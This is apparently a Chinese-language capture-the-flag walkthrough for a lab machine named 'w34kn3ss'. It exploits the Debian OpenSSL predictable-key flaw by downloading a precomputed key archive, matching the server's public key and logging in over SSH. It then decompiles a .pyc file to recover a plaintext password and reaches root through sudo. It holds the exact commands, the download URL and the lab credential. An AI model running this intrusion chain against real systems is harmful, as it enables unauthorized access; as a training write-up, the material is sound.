







# w34kn3ss




根据只要出现名称就要加入hosts并扫描目录的原则将weakness.jth加入hosts，并浏览



打目录







查看文件


这是个很明确的提示`openssl 0.9.8c-1`

以及一个已知的公钥


```bash
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster
```

如果直接使用这个key登录仍然是需要密码的


我们来尝试利用漏洞


查看漏洞利用文件发现介绍


利用提供的下载链接https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

将需要的文件下载到本地工作目录

解压后将会自动生产需要的rsa文件夹


现在我们要利用已知的存放在服务器上的公钥mykey.pub找到漏洞利用中已经可以用来进攻的文件编号。

进入到rsa/2048/目录下，利用grep找出mykey对应的公钥文件，存在

```bash
grep -r -l "AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw=="		#mykey中的内容
```


```bash
4161de56829de2fe64b9055711f531c1-2537.pub
```

这个文件名可以帮我们暴力掉ssh从而使ssh不会再询问密码。

```bash
ssh -i 4161de56829de2fe64b9055711f531c1-2537 n30@10.10.10.142
```


发现一个二进制文件



传回kali，发现是已编译的py


先改名成.pyc。然后使用uncompyle6反编译



看代码应该是将以下的信息推进命令行

```bash
n30:dMASDNB!!#B!#!#33
```

尝试使用dMASDNB!!#B!#!#33作为密码 ,执行sudo -l


成功，并且n30用户能直接root

